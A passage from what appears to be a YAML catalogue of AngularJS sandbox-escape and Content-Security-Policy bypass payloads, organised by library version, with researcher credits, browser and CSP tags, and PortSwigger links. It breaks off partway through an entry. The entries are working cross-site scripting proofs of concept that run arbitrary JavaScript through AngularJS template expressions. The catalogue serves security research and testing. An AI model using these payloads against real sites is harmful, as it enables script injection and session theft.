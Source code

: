 ```yaml
      - description: Starting `1.6.0`, [AngularJS](https://github.com/angular/angular.js) has removed the sandbox that prevents the execution of arbitrary code.
        code: |
          <script nonce="secret" src="https://ajax.googleapis.com/ajax/libs/angularjs/1.6.0/angular.min.js"></script>

          <!-- user input -->
          <div ng-app>{{constructor.constructor('alert(document.domain)')()}}</div>
      - description: This shorten version have been found by [@garethheyes](https://x.com/garethheyes) and [@LewisArdern](https://x.com/LewisArdern).
        code: |
          <script nonce="secret" src="https://ajax.googleapis.com/ajax/libs/angularjs/1.6.0/angular.min.js"></script>

          <!-- user input -->
          <div ng-app>{{$on.constructor('alert(document.domain)')()}}</div>
    links:
      - https://portswigger.net/research/dom-based-angularjs-sandbox-escapes
      - https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#angularjs-sandbox-escapes-reflected
  1.2.0-1.5.0:
    authors:
      - twitter:sirdarckcat
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - any-tag
      - custom-attr
      - wh-host-csp
      - nonce-csp
      - unsafe-eval-csp
      - before-lib-load
    pocs:
      - code: |
          <script nonce="secret" src="https://ajax.googleapis.com/ajax/libs/angularjs/1.5.0/angular.min.js"></script>

          <!-- user input -->
          <div ng-app ng-csp><div ng-focus="x=$event;" id=f tabindex=0>foo</div><div ng-repeat="(key, value) in x.view"><div ng-if="key == 'window'">{{[1].reduce(value.alert, 1);}}</div></div></div>
    links:
      - https://portswigger.net/research/angularjs-csp-bypass-in-56-characters
      - https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#angularjs-csp-bypasses
  1.5.9-1.5.11:
    authors:
      - twitter:tehjh
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - any-tag
      - custom-attr
      - wh-host-csp
      - nonce-csp
      - unsafe-eval-csp
      - before-lib-load
    pocs:
      - code: |
          <script nonce="secret" src="https://ajax.googleapis.com/ajax/libs/angularjs/1.5.8/angular.min.js"></script>

```